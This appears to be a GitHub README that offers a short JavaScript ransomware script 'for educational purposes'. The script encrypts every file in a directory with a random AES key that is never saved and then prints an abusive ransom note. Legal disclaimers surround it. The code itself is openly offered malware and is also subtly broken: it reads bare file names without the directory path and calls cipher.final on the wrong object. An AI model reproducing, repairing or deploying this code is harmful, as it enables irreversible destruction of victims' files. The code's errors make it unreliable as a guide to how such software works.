 # JADE - Ransomware Code in JavaScript (Example)
##### RedTeam - Techniques for 'Offensive Security' by Volkan Sah - Simple Codings for Offensive Security (update 02/2023)

⚠️ Please note that exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. Use this informations responsibly and only on networks you have permission to access. ⚠️

Ransomware attacks are one of the most destructive and malicious types of cyber threats, often resulting in significant financial losses and personal data theft. It is important to understand the mechanisms of ransomware attacks in order to protect yourself and your systems from these malicious threats.

This JavaScript code provides a simplified example of a ransomware attack and its underlying techniques. It is intended for educational and ethical hacking purposes only, and should not be used for any illegal or unethical activities. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.


## Example 
```javascript
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Once the encryption key is generated, the code will read all files in the target directory.
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var encryptedData = crypto
    .createCipher('aes-256-cbc', encryptionKey)
    .update(data, 'utf8', 'hex') +
    crypto.createCipher.final('hex');

  // writing encrypted data back to file
  // Finally, the code will display a ransom note to the user, demanding payment in exchange for the decryption key.

  fs.writeFileSync(file, encryptedData);
});

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
e.g go fuck off
`;

console.log(ransomNote);

```

##  Note
As technology continues to advance, it's more important than ever to protect ourselves and our systems from malicious attacks. With the rise of dangerous JavaScript techniques that can be executed through the browser, it's crucial to take proactive measures to safeguard your browsing experience. By utilizing browser add-ons such as NoScript and Privacy Badger, you can protect yourself from potential threats and enjoy a safer, more secure online experience. Remember, it's not just about protecting yourself - it's about promoting a culture of responsible technology use that benefits society as a whole

## Disclaimer
The developer of this script is not responsible for any misuse or damage caused by this tool. It is the user's responsibility to ensure that they have the necessary permissions to use this tool on their chosen networks. Only for educational and ethical hacking purposes only!

## Issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

## WARNING! AGAIN!
**⚠️ exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. ⚠️**

## License
This project is licensed under the MIT License. 

## Credits
[Volkan Sah](https://github.com/volkansah)

